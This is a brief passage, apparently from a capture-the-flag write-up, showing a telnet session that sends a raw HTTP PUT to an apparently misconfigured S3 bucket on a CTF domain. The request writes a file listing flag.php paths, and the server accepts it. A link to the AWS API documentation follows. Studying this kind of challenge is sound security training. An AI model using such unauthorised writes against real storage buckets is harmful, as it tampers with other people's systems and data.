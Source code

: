 ```
$ telnet files.filer.sect.ctf.rocks 80
PUT /abc.txt HTTP/1.1
Host: files.filer.sect.ctf.rocks
Date: Sat, 10 Sep 2016 09:21:02 GMT
Content-Type: text/plain
Content-Length: 32

/files/flag.php
/files/flag.php

HTTP/1.1 200 OK
x-amz-id-2: 3GLe0t1bgnmvrVbZic0CAjd8x5mwPBJRR6stEJj+e6/7x+8tZe0jteImuhxukQKZJFa6z0yOnrY=
x-amz-request-id: 3F732267A35970EC
Date: Sat, 10 Sep 2016 09:21:26 GMT
ETag: "c1f1b2f47ed3ad9c7785dc233fcb1ce5"
Content-Length: 0
Server: AmazonS3
```

References:

[https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html](https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html)
